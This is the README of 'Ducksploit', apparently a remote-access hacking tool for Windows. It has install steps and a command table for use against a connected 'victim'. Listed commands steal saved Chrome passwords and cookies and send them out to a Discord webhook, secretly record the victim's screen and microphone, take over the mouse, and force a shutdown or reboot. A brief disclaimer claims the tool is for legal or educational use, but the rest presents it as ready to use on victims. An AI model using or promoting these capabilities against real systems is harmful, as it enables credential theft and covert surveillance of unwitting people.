 [![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/master/images/banner.png?raw=true "banner")](https://github.com/canarddu38/DUCKSPLOIT/blob/master/images/banner.png?raw=true "banner")

 # Ducksploit
 ![](https://img.shields.io/badge/Version-1.0-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)


## Install Ducksploit

   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/master.zip
   2. Extract downloaded zip file
   3. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   4. Install python requirements using 'installrequirements.bat' script
   5. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   6. Ducksploit is now installed on your PC :smile:
   7. Type 'ducksploit' in the cmd
   8. Config your ip using 'ipconfig' (your ip)
   9. Wait victim's connection using 'wait' command
   10. Have fun with ducksploit hacking commands (type help to get commands list)


:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. Launch Ducksploit terminal using 'ducksploit'
   2. type 'uninstall'
   3. Done  :smile:


## **Commands**

#### Config
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| ipconfig  | ipconfig (your ipv4) | config your ip |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |
| open  | open (applicationname.exe) | open mensioned application |

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content) |
| createfile | createfile (text) | set the content of line1 of msg command |

#### Mysc
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| update | update | update ducksploit |
| exit | exit | exit from the ducksploit treminal |
| help | help | getting the list of all commands |
| shutdown | shutdown | make the victim's pc shutdown |
| reboot | reboot | make the victim's pc reboot |
| closesession | closesesion | make the victim's session close |
